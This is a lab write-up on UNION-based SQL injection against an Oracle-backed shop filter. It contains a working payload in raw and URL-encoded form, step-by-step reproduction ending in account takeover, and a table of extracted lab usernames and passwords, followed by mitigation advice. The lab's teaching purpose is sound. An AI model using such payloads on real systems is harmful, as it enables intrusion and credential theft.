


# Lab 06: SQL injection attack, listing the database contents on Oracle

## Category
SQL Injection - UNION-based (Complete Data Exfiltration on Oracle)

## Vulnerability Summary
The website's product filtering feature contains a SQL injection vulnerability that allows attackers to extract all user credentials from the Oracle database. By using UNION-based SQL injection payloads, the application can be manipulated to reveal usernames and passwords from the USERS_ELGFAU table. This vulnerability demonstrates complete database compromise on Oracle systems.

## Steps to Reproduce
1. Navigate to the e-commerce website's product category filter.
2. Determine the number of columns in the original query using ORDER BY injection or UNION SELECT with incrementing NULL values until no error occurs.
3. Once column count is known (2 columns), craft a UNION SELECT payload to extract data from the target table.
4. Inject the payload: `'+UNION+SELECT+USERNAME_XCOXXE,PASSWORD_IYEAWA+FROM+USERS_ELGFAU--`
5. Submit the request and observe the response containing all user credentials.
6. Verify successful exploitation by checking that usernames and passwords are displayed in the product listing area.
7. (Optional) Log in as any user using the extracted credentials to confirm account takeover.




## Technical Root Cause
The vulnerability stems from improper handling of user input in SQL query construction:

- **Unsanitized Input:** User input from the category filter is directly concatenated into SQL queries.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements.
- **UNION Operator Exploitation:** The UNION operator allows combining results from multiple SELECT statements.
- **Oracle Table Access:** Oracle's table structure allows direct querying of user tables without additional authentication.
- **Column Matching:** The attacker matches the number and data types of columns in the original query to successfully inject data.
- **No Input Validation:** The application accepts SQL operators and special characters without validation.

### Payload Used
```
'+UNION+SELECT+USERNAME_XCOXXE,PASSWORD_IYEAWA+FROM+USERS_ELGFAU--
```

URL-encoded payload in category filter:
```
/filter?category='+UNION+SELECT+USERNAME_XCOXXE,PASSWORD_IYEAWA+FROM+USERS_ELGFAU--
```

How it works:
- The original query likely looks like: `SELECT * FROM products WHERE category = 'input'`
- The injection transforms it to: `SELECT * FROM products WHERE category = '' UNION SELECT USERNAME_XCOXXE, PASSWORD_IYEAWA FROM USERS_ELGFAU--'`
- The `'` closes the category string value.
- The `UNION SELECT` combines the original query results with data from the USERS_ELGFAU table.
- `USERNAME_XCOXXE` - Column containing usernames
- `PASSWORD_IYEAWA` - Column containing passwords (stored in plaintext)
- `USERS_ELGFAU` - The Oracle users table
- The `--` comments out the rest of the original query.

Extracted credentials:
| Username | Password |
|----------|----------|
| administrator | qt440zo7vrojdzgu0v0e |
| carlos | tfmrqq5m5vrk1m4ean8b |
| wiener | 6es5t02ulfbnai2m9zc1 |

## Impact
- **Complete Credential Theft:** All user passwords are exposed in plaintext.
- **Account Takeover:** Attacker can log in as any user including administrator.
- **Privilege Escalation:** Administrator access allows full application control.
- **Data Breach:** Sensitive user information is compromised.
- **Compliance Violation:** Data extraction violates privacy regulations (GDPR, PCI-DSS).
- **Plaintext Passwords:** Passwords stored without hashing is a critical security flaw.
- **Reputation Damage:** Public disclosure of data breach affects user trust and business reputation.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations.
2. **Input Validation:** Implement strict input validation allowing only expected category values.
3. **Whitelist Approach:** Use a whitelist of valid category names instead of accepting raw input.
4. **Password Hashing:** Store passwords using strong hashing algorithms (bcrypt, Argon2, PBKDF2) - NEVER store in plaintext.
5. **Least Privilege:** Database accounts should have minimal permissions required for application function.
6. **ORM Usage:** Consider using Object-Relational Mapping (ORM) frameworks that handle SQL safely.
7. **Web Application Firewall:** Deploy WAF rules to detect and block UNION-based SQL injection attempts.
8. **Regular Security Testing:** Conduct periodic penetration testing and code reviews for SQL injection.

---
*Lab completed on: 2026-03-07*
